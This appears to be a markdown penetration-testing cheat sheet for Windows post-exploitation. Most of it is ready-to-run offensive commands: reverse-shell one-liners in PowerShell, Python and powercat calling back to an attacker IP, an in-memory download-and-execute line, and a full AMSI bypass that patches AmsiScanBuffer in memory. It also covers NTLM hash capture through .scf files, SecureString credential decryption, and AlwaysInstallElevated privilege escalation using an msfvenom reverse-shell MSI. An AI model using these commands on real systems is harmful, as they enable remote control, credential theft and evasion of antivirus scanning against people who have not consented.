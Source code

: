 ## exploiting UNC paths to get NTLM hash
To get NTLM hashes are to somehow get an authenticated connection back to us, there by giving us hashes
1. One of of doing it is to somehow upload .scf files to the machine. SCF files are command files which containt very limited amount of windows explorer commands, which does not need any user interaction, and gets executed the moment a user opens the directory which contains the .scf file. So hence we can specify a UNC path to connect to and set up an smb server using responder, this will give us the NTLM hashes, because given a UNC path, windows thinks that it needs to authenticate to the remote machine, thereby giving away its hash. This attack was also prevelant in .lnk(shortcuts) files but was patched. More on this here https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

## getting a reverse shell:-
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` (via powershell)<br />
or<br />
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["cmd.exe"]);'` (via python) 
or<br />
`powercat -c "IP" -p PORT -e cmd.exe` (via powercat)<br />
or<br />
simply use netcat
## first move to a powershell:-
powershell.exe

## then the obvious:-
`whoami`<br />
`echo %username%` (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
`$ENV:USERNAME` (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
`whoami /priv`<br />
`net user`<br />
`net localgroup Administrators`<br />
`Get-ExecutionPolicy`<br />
`powershell.exe -ep bypass` (to set execution policy to bypass)<br />
`Get-Host | Select-Object Version` (to check the whole version of powershell)<br />
`$PSVersionTable.PSVersion.Major` (to check the version of powershell)


## About the system and proccess running:-
`systeminfo`<br />
`tasklist`<br />
`([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)` (to check if you r admin or not)<br />
`(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1")` (to check for smb version 1)<br />

## Running scripts from memory
`iex (New-Object Net.WebClient).DownloadString('http://ip/script.ps1'); "function name with args"`

## Bypassing AMSI
`$code = @"
using System;
using System.Runtime.InteropServices;

public class Native
{

[DllImport("kernel32.dll")]
public static extern IntPtr LoadLibrary(string name);

[DllImport("kernel32.dll")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $code
$amsiDll = [Native]::LoadLibrary("am" + "si.dll")
$asbAddress = [Native]::GetProcAddress($amsiDll, "Am" + "si" + "Sc" + "an" + "Buf" + "fer")
$ret = [Byte[]] ( 0xC3 )
$o = 0
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, 0x40, [ref] $o)

[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddress, $ret.Length)
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, $o, [ref] $null)`

## Locate files in the whole drive
`dir filename.extension /s` (do it from C:\ folder)(supports regex)
`dir /a /q` (linux like ls -la, gives time modified as well as file owner)

## Show all folders and files including hidden ones
* `dir /a` - For cmd.exe
* `dir -force` - For powershell.exe
<br />

## To Download somthing from the internet or intranet:-
`powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")`<br />
`powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file`

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name -Output Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

`$credential = Import-CliXml -Path  PathToXml\MyCredential.xml` <br />
`$credential.GetNetworkCredential().Password` <br />

### If you have a single string

`$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString` <br />
`[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))`

## Checking and exploiting AlwaysInstallElevated Permission

To check if this permission is enabled or not

1. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
2. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If both of these come 0x1 then that means the permissions is allowed.
If it is allowed then we can install any .msi file with system privelages so now we just need to make a payload from msfvenom like this "msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=2345 --encoder x64/xor --iterations 9 --format msi --out test.msi" and put it in the target box and simply execute it by not trigger the uac and any gui with this "msiexec /quiet /qn /i test.msi" and u get a shell on your listener

## Checking any remaing sticky keys

Sometimes users do put stuff in sticky keys which is stored in C:\Users\USER\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
